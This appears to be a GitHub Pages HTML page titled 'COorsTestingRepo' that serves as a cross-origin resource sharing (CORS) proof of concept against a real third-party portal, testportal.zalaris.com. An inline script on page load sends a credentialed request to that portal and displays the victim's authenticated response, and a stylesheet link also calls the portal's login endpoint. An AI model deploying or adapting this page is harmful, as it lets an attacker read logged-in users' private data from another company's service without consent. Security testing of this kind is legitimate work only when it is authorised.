 <!DOCTYPE html>
<html lang="en-US">
  <head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">

<!-- Begin Jekyll SEO tag v2.8.0 -->
<title>COorsTestingRepo</title>
<meta name="generator" content="Jekyll v3.9.2" />
<meta property="og:title" content="COorsTestingRepo" />
<meta property="og:locale" content="en_US" />
<link rel="canonical" href="https://sz072.github.io/COorsTestingRepo/" />
<meta property="og:url" content="https://sz072.github.io/COorsTestingRepo/" />
<meta property="og:site_name" content="COorsTestingRepo" />
<meta property="og:type" content="website" />
<meta name="twitter:card" content="summary" />
<meta property="twitter:title" content="COorsTestingRepo" />
<script type="application/ld+json">
{"@context":"https://schema.org","@type":"WebSite","headline":"COorsTestingRepo","name":"COorsTestingRepo","url":"https://sz072.github.io/COorsTestingRepo/"}</script>
<!-- End Jekyll SEO tag -->

    <link rel="stylesheet" href="https://testportal.zalaris.com/nea/v1/authenticate?neaRelayState=ZHQPORTAL%3ahttps%3a%2f%2ftestportal.zalaris.com%2fep%2fredirect">
    <!-- start custom head snippets, customize with your own _includes/head-custom.html file -->

<!-- Setup Google Analytics -->



<!-- You can set your favicon here -->
<!-- link rel="shortcut icon" type="image/x-icon" href="/COorsTestingRepo/favicon.ico" -->

<!-- end custom head snippets -->

  </head>
  <body>
    <div class="container-lg px-3 my-5 markdown-body">
      
      <h1><a href="https://sz072.github.io/COorsTestingRepo/">COorsTestingRepo</a></h1>
      

      <html><body><script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200) alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://testportal.zalaris.com",true);xhttp.withCredentials=true;xhttp.send()}cors();</script></body></html>


      
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/anchor-js/4.1.0/anchor.min.js" integrity="sha256-lZaRhKri35AyJSypXXs4o6OPFTbTmUoltBbDCbdzegg=" crossorigin="anonymous"></script>
    <script>anchors.add();</script>
  </body>
</html>

